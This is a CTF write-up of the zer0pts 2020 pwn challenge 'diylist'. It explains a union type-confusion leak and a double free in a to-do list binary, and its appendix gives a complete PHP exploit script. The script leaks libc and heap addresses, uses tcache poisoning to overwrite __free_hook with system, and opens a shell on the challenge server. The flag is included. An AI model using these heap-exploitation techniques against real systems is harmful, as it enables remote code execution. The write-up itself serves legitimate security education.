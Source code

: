 # diylist - zer0pts CTF 2020 (pwn, 453p, 36 solved)
## Introduction

diylist is a pwn task.

An archive containing a binary, a library, and its source code is provided.

The binary allows the user to manage a to-do list. The list can contain a value
of type char, long or double.

## Vulnerability

The list is internally represented by a structure and an union:
```c
typedef union {
  char *p_char;
  long d_long;
  double d_double;
} Data;

typedef struct {
  int size;
  int max;
  Data *data;
} List;
```

Unions often leads to type confusion bugs.

The user is asked what type his list is prior to showing it. It is possible to
confuse a long value with a string pointer, leading to an arbitrary read
vulnerability.

When adding a string item, its value is duplicated with `strdup` in a pool of
strings. When deleting this item the binary will search for the pointer in this
pool, and free it if it present. The pointer is not removed from the pool.

This cause a problem if an attacker can predict the address at which a string is
allocated. If they do, they can allocate a new item with a long value that
contains a pointer to a free string. The binary will then free it a second time
because the value, albeit not a string, is present in the string pool.

This causes as double-free vulnerability.

## Exploitation

The exploitation is quite straightforward, and goes like this:
1. create a long item with a value that points to the binary's `.GOT.PLT`
   section
2. read this value as a string to leak a libc address
3. create a string item
4. read this value as a long to leak the heap address
5. create a new long value that contains the heap address
6. free both values to get a double free
7. abuse the regular tcache-poisoning attack to allocate an arbitrary buffer in
   libc's `__free_hook`

The usual strategy is to replace `__free_hook` with `system` and call `free` on
a buffer that contains `/bin/sh`.

**Flag**: `zer0pts{m4y_th3_typ3_b3_w1th_y0u}`

## Appendices

### pwn.php

```php
#!/usr/bin/php
<?php
require_once("Socket.php");

function menu(Tube $t)
{
	$t->expectLine("1. list_add");
	$t->expectLine("2. list_get");
	$t->expectLine("3. list_edit");
	$t->expectLine("4. list_del");
	$t->expect("> ");
}

function add(Tube $t, $type, $data)
{
	menu($t);
	$t->write("1\n");

	$t->expect("Type(long=1/double=2/str=3): ");
	$t->write("$type\n");

	$t->expect("Data: ");
	$t->write($data);
}

function get(Tube $t, $idx, $type)
{
	menu($t);
	$t->write("2\n");

	$t->expect("Index: ");
	$t->write("$idx\n");

	$t->expect("Type(long=1/double=2/str=3): ");
	$t->write("$type\n");

	$t->expect("Data: ");
	return $t->readLine();
}

function edit(Tube $t, $idx, $type, $data)
{
	menu($t);
	$t->write("3\n");

	$t->expect("Index: ");
	$t->write("$idx\n");

	$t->expect("Type(long=1/double=2/str=3): ");
	$t->write("$type\n");

	$t->expect("Data: ");
	$t->write($data);
}


function del(Tube $t, $idx, $early = false)
{
	menu($t);
	$t->write("4\n");

	$t->expect("Index: ");
	$t->write("$idx\n");

	if($early)
		return;

	$t->expectLine("Successfully removed");
}

$t = new Socket("13.231.207.73", 9007);


/* Payload */
add($t, 3, "/bin/sh\0");

/* Leak libc */
add($t, 1, 0x00602018); // puts
$leak = get($t, 1, 3);
$leak = str_pad($leak, 8, "\x00");
$addr = unpack("Q", $leak)[1];
$libc = $addr - 0x00000000000809c0;
printf("libc: %X\n", $libc);
del($t, 1);

/* Leak heap */
add($t, 3, "XeR");
$heap = 0 | get($t, 1, 1);
printf("heap: %x\n", $heap);

/* Double free */
add($t, 1, $heap);
del($t, 2);
del($t, 1);


add($t, 3, pack("Q", $libc + 0x003ed8e8));
add($t, 3, pack("Q", 0));
add($t, 3, pack("Q", $libc + 0x0004f440));

del($t, 0, true);


printf("shell\n");
$t->pipe();
```